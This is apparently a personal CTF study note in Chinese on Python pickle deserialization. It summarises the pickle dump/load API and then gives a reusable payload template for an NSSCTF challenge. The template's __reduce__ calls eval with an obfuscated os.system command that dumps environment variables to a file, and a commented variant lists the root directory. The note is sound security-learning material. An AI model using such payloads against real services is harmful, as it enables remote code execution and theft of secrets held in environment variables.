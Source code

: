 pickle

//2023/11/29

[pickle 反序列化漏洞浅析_pickle.loads_Derait的博客-CSDN博客](https://blog.csdn.net/Derait/article/details/119487233?ops_request_misc=&request_id=&biz_id=102&utm_term=pickle ctf&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-3-119487233.142^v96^pc_search_result_base1&spm=1018.2226.3001.4187)

![1701241932734](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1701241932734.png)

```
#序列化
pickle.dump(obj, file, protocol=None,)
obj表示要进行封装的对象(必填参数）
file表示obj要写入的文件对象
以二进制可写模式打开即wb(必填参数）
#反序列化
pickle.load(file, *, fix_imports=True, encoding="ASCII", errors="strict", buffers=None)
file文件中读取封存后的对象
以二进制可读模式打开即rb(必填参数)

```

```
#序列化
pickle.dumps(obj, protocol=None,*,fix_imports=True)
dumps()方法不需要写入文件中，直接返回一个序列化的bytes对象。
#反序列化
pickle.loads(bytes_object, *,fix_imports=True, encoding="ASCII". errors="strict")
loads()方法是直接从bytes对象中读取序列化的信息，而非从文件中读取。

```





[[HZNUCTF 2023 preliminary\]pickle | NSSCTF](https://www.nssctf.cn/problem/3611)

此题payload，也可看作一个模板

```
import pickle  
import base64  
  
class rayi(object):  
def __reduce__(self):  
#return eval,("__import__('o'+'s').system('ls / | tee a')",)  
return eval,("__import__('o'+'s').system('env | tee a')",)  
  
a=rayi()  
print(pickle.dumps(a))  
print(base64.b64encode(pickle.dumps(a)))
```



```

```

